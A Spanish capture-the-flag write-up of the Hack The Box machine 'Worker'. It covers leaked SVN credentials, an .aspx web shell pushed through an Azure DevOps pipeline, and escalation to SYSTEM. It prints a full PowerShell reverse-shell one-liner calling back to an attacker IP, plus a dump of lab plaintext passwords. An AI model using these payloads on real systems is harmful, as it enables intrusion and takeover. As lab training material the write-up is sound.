

# Worker

Dificultad: Medium
OS: Windows

En este writeup, voy a demostrar paso a paso como conseguir el root en la máquina Worker

## Reconocimiento

Primero, aunque aparezca en el icono, es una buena práctica ver qué OS utiliza el objetivo. Para ello utilizaremos el comando **ping -c 1 {IP}** y viendo la ttl podemos saber contra qué nos enfrentamos de manera silenciosa (Linux:64 y Windows:128). En este vemos que es una máquina Windows.



Buscamos los puertos abiertos de la máquina 

```bash
sudo nmap -p- -sS --min-rate 1000 --open -vvv -n -Pn 10.10.10.203
```

Hay tres puertos abiertos, el 80, 3690 y 5985.


Y ahora vamos a hacer un escaneo de los servicios

```bash
nmap -sC -sV -p80,3690,5985 10.10.10.203 -oN scan.nmap
```

Y encontramos información importante, como que utiliza svnserve


Intentamos ver los contenidos y funciona


Con checkout podemos descargar el repositorio


Si leemos moved.txt encontramos que la ultima versión del repositorio está hosteado en el dominio devops.worker.htb


Asi que añadimos dimension.worker.htb y devops.worker.htb a /etc/hosts para poder acceder


Al entrar a devops.worker.htb nos encontramos con un login, sin tener credenciales poco podemos hacer asi que miramos dimension.worker.htb


Podemos entrar a dimension.worker.htb, parece ser una página web hecha a traves de un template de HTML5 UP.


Buscando rápidamente encontramos en Work una serie de subdominios. Los añadimos a /etc/hosts pero no tienen nada interesante por donde tirar.


Volvemos a svn y miramos con log los cambios que ha habido a lo largo del tiempo.

Y hay que destacar el r2 “Added deployment script”, vamos a verlo


Entrando en el commit vemos que se ha borrado moved.txt y añadido deploy.ps1

```bash
❯ svn update -r 2
Updating '.':
D    moved.txt
A    deploy.ps1
Updated to revision 2.
```

Si leermos deploy.ps1 vemos unas credenciales “nathen:wendel98”


Ahora con estas credenciales podemos entrar a devops.worker.htb y nos encontramos con un proyecto llamado SmartHotel360


Si entramos en Repos podemos ver que tiene un repositorio por cada subdominio


Viendo que se pueden subir archivos me descargo una web shell .aspx


Pero al hacer el commit no deja subirlos a la rama master


Por lo que creamos una nueva rama y hacemos un commit ahí


El commit tiene que aprovarse pero por suerte tenemos permisos para ello


Ahora solo nos queda ejecutar en Pipelines Cartoon-CI en la rama HTB para que se priorice y podamos acceder a la web shell


Ahora tenemos una web shell con el usuario “iis appool\defaultappool”


Voy a crear una reverse shell de powershell

```powershell
/c $client = New-Object System.Net.Sockets.TCPClient('10.10.14.11',8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


Vemos los usuarios Administrator y robisl, pero no podemos entrar en ninguno


Con net user podemos listar información de un usuario, y robisl tiene *Remote Management Use

Esto nos da indicio de que podemos usar Evil-WinRM. Pero no tenemos credenciales

```text
PS C:\users> net user robisl
User name                    robisl
Full Name                    Robin Islip
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2020-04-05 21:27:26
Password expires             Never
Password changeable          2020-04-05 21:27:26
Password required            No
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   2020-08-03 12:41:02

Logon hours allowed          All

Local Group Memberships      *Production           *Remote Management Use
Global Group memberships     *None                 
The command completed successfully.
```

Buscando en W:\ nos encontramos con un archivo llamado passwd con todos los usuarios y contraseñas, podemos verificar que es correcto ya que la primera la tenemos.

Gracias a esto tenemos ya credenciales para robisl

```powershell
PS W:\svnrepos\www\conf> type passwd
### This file is an example password file for svnserve.
### Its format is similar to that of svnserve.conf. As shown in the
### example below it contains one section labelled [users].
### The name and password for each user follow, one account per line.

[users]
nathen = wendel98
nichin = fqerfqerf
nichin = asifhiefh
noahip = player
nuahip = wkjdnw
oakhol = bxwdjhcue
owehol = supersecret
paihol = painfulcode
parhol = gitcommit
pathop = iliketomoveit
pauhor = nowayjose
payhos = icanjive
perhou = elvisisalive
peyhou = ineedvacation
phihou = pokemon
quehub = pickme
quihud = kindasecure
rachul = guesswho
raehun = idontknow
ramhun = thisis
ranhut = getting
rebhyd = rediculous
reeinc = iagree
reeing = tosomepoint
reiing = isthisenough
renipr = dummy
rhiire = users
riairv = canyou
ricisa = seewhich
robish = onesare
robisl = wolves11
robive = andwhich
ronkay = onesare
rubkei = the
rupkel = sheeps
ryakel = imtired
sabken = drjones
samken = aqua
sapket = hamburger
sarkil = friday
```

Entramos con “robisl:wolves11” y solo tenemos que navegar al Dekstop del usuario para obtener su flag


## Escalada de privilegios

Lo primero que vamos a probar es a ingresar con la nueva cuenta a la web para ver que permisos tiene.


La cuenta pertenece a Build Administrators, asi que tenemos permisos para crear nuevos Pipelines.


Miramos las pools que hay para poder ejecutar el pipeline malicioso


Procedemos a crear el pipeline para ejecutar comandos:

Pipelines > New pipeline > Azure Repos Git > PartsUnlimited > Starter pipeline

Primero hacemos un whoami para comprobar con qué usuario lo ejecuta


Una vez ejecutado el script, nos sale que se ejecuta como authority\system asi que ahora es fácil


Subimos un netcat pero en exe para poder hacer una reverse shell


Y lo llamos para ejecutarlo


Ahora tenemos una reverse como authority\system


Lo único que nos queda es moverlos al Desktop del Administrador y leer la flag.

